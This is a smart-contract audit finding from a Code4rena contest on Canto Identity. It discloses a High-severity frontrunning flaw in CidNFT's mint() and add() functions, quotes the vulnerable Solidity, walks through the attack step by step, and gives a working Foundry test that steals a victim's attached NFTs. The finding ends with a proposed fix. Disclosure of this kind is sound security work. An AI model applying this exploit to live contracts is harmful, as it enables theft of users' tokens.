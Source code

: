 # Canto C4A Audit (2023-01)

## [High - Attacker can frontrun a victim's mint+add transaction to steal NFT] (https://github.com/code-423n4/2023-01-canto-identity-findings/issues/67)

## Lines of code

https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/CidNFT.sol#L147
https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/CidNFT.sol#L165
https://github.com/code-423n4/2023-01-canto-identity/blob/main/src/CidNFT.sol#L237

## Vulnerability details

### Impact

High - an attacker can steal deposited NFTs from victims using the mint() + add() functionality in CidNFT.sol

### Proof of Concept

One of the core features of CID Protocol is the ability for users to attach Subprotocol NFTs to their CidNFT. The CidNFT contract custodies these attached NFTs, and they are regarded as "traits" of the user.

The protocol currently includes functionality for a user to mint a CidNFT as their identity and then optionally add a subprotocol NFT to that CidNFT in the same transaction. This occurs in the mint() function of CidNFT.sol, which takes a byte array of add() parameters and includes a loop where add() can be repeatedly called with these parameters to attach subprotocol NFTs to the CidNFT.

```solidity
function mint(bytes[] calldata _addList) external {
    _mint(msg.sender, ++numMinted);
    bytes4 addSelector = this.add.selector;
    for (uint256 i = 0; i < _addList.length; ++i) {
        (bool success /*bytes memory result*/, ) = address(this)
            .delegatecall(abi.encodePacked(addSelector, _addList[i]));
        if (!success) revert AddCallAfterMintingFailed(i);
    }
}
```

One of the arguments for add() is the \_cidNFTID to which the user would like to attach their outside NFT. However, \_cidNFTID is specified in calldata to mint(), and there is no guarantee that the user is actually add()ing to the CidNFT that they just minted. There is only a check in add() that the user is either the owner or approved for that CidNFT.

```
function add(
        uint256 _cidNFTID, // No guarantee that this is the CidNFT id that was just minted by the user
        string calldata _subprotocolName,
        uint256 _key,
        uint256 _nftIDToAdd,
        AssociationType _type
    ) external {
    ...............
    if (
        cidNFTOwner != msg.sender &&
        getApproved[_cidNFTID] != msg.sender &&
        !isApprovedForAll[cidNFTOwner][msg.sender]
    ) revert NotAuthorizedForCIDNFT(msg.sender, _cidNFTID, cidNFTOwner);
    ...............
}
```

This opens up the following attack:

1. Victim sends a transaction expecting to mint `CidNFT #100`, and includes calldata to add() their SubprotocolNFT to the token in the same tx
2. Attacker frontruns this transaction with a mint() with no add() parameters, receives `CidNFT #100`, and sets the victim as approved for that token
3. The victim's transaction begins execution, and they instead receive `CidNFT #101`, though their add() calldata still specifies `CidNFT #100`
4. The victim's add() call continues, and their SubprotocolNFT is registered to `CidNFT #100` and transferred to the CidNFT contract
5. The attacker can then either revoke approval to the victim for `CidNFT #100` or immediately call remove() to transfer the victim's SubprotocolNFT to themselves

Below is a forge test executing this attack. This should run if dropped into CidNFT.t.sol.

```
function testMaliciousMint() public {
    uint256 cidTokenId = cidNFT.numMinted() + 1;
    (uint256 subTokenId1, uint256 subTokenId2) = (1, 2);
    (uint256 key1, uint256 key2) = (1, 2);

    // user1 == attacker
    // user2 == victim
    // Frontrun the victim's mint by minting the cidNFT token they expect before them
    vm.startPrank(user1);
    cidNFT.mint(new bytes[](0));

    // Set the victim (user2) as approved for the token user1 just minted
    cidNFT.setApprovalForAll(user2, true);
    vm.stopPrank();

    // Mint user2 the subtokens that user1 wants to steal, approve the CidNFT contract
    // for the subtokens, and prepare the addlist with the incorrect cidNFT token id
    vm.startPrank(user2);
    sub1.mint(user2, subTokenId1);
    sub1.mint(user2, subTokenId2);
    sub1.setApprovalForAll(address(cidNFT), true);

    bytes[] memory addList = new bytes[](2);
    addList[0] = abi.encode(
        cidTokenId,
        "sub1",
        key1,
        subTokenId1,
        CidNFT.AssociationType.ORDERED
    );
    addList[1] = abi.encode(
        cidTokenId,
        "sub1",
        key2,
        subTokenId2,
        CidNFT.AssociationType.ORDERED
    );

    // Mint user2 a new CidNFT and attach the subtokens to user1's CidNFT
    cidNFT.mint(addList);
    vm.stopPrank();

    // Confirm that user1's CidNFT has the subtokens and can transfer them out
    vm.startPrank(user1);
    cidNFT.remove(
        cidTokenId,
        "sub1",
        key1,
        subTokenId1,
        CidNFT.AssociationType.ORDERED
    );
    cidNFT.remove(
        cidTokenId,
        "sub1",
        key2,
        subTokenId2,
        CidNFT.AssociationType.ORDERED
    );
    vm.stopPrank();

    // Confirm that user1 now holds the subtokens
    assertEq(cidNFT.ownerOf(cidTokenId), user1);
    assertEq(cidNFT.ownerOf(cidTokenId + 1), user2);
    assertEq(sub1.ownerOf(subTokenId1), user1);
    assertEq(sub1.ownerOf(subTokenId2), user1);

}
```

## Tools Used

Manual review

## Recommended Mitigation Steps

- Enforce that the user can only `add()` to the CidNFT that they just minted rather than allowing for arbitrary IDs

